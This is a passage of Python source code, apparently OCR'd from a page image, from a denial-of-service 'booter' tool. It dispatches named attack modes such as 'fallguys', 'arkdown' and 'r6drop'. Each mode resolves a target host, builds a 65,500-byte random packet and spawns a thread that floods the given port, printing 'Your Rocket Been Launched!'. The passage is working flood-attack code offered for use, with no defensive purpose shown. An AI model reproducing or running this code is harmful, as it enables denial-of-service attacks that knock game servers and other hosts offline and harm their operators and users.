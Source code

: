 				else:
					sinput, host, timer, port = sin.split(" ")
					socket.gethostbyname(host)
					pack = 65500
					punch = random._urandom(int(pack))
					threading.Thread(target=randsender, args=(host, timer, port, punch)).start()
					print("\033[31mYour Rocket Been Launched!")
			except ValueError:
				main()
			except socket.gaierror:
				main()
		elif sinput == "fallguys":
			try:
				if running >= 1:
					print("\033[31mThere is alrady an attack going.")
					main()
				else:
					sinput, host, timer, port = sin.split(" ")
					socket.gethostbyname(host)
					pack = 65500
					punch = random._urandom(int(pack))
					threading.Thread(target=randsender, args=(host, timer, port, punch)).start()
					print("\033[31mYour Rocket Been Launched!")
			except ValueError:
				main()
			except socket.gaierror:
				main()
		elif sinput == "arkilft":
			try:
				if running >= 1:
					print("\033[31mThere is alrady an attack going.")
					main()
				else:
					sinput, host, timer, port = sin.split(" ")
					socket.gethostbyname(host)
					pack = 65500
					punch = random._urandom(int(pack))
					threading.Thread(target=randsender, args=(host, timer, port, punch)).start()
					print("\033[31mYour Rocket Been Launched!")
			except ValueError:
				main()
			except socket.gaierror:
				main()
		elif sinput == "arkdown":
			try:
				if running >= 1:
					print("\033[31mThere is alrady an attack going.")
					main()
				else:
					sinput, host, timer, port = sin.split(" ")
					socket.gethostbyname(host)
					pack = 65500
					punch = random._urandom(int(pack))
					threading.Thread(target=randsender, args=(host, timer, port, punch)).start()
					print("\033[31mYour Rocket Been Launched!")
			except ValueError:
				main()
			except socket.gaierror:
				main()
		elif sinput == "r6drop":
			try:
				if running >= 1:
					print("\033[31mThere is alrady an attack going.")
					main()
